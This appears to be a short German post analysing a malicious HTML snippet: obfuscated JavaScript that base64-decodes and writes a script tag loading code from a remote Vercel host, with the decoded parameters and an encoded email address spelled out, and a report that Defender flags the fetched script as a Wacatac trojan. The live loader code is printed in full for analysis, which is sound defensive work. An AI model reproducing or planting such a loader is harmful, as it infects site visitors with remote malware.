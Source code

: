 <html>
<head><script>var _fs=['PHNjcmlwdCBzcmM9Imh0dHBzOi8vZmljdGlvbmFsLWRtay52ZXJjZWwuYXBwLyI+PC9zY3JpcHQ+Cg==',"\x77\x72\x69\x74\x65"]; var h = "dGtlbXBAdC1vbmxpbmUuZGU="; document[_fs[1]](unescape(atob(_fs[0])))</script>
0th param: <script src="https://fictional-dmk.vercel.app/"></script>
1st param: write
h=tkemp@t-online.de

Der Link lädt ein Skript herunter was lt. Microsoft Defender folgenden Trojaner enthält:
Trojan:Script/Wacatac.B!ml
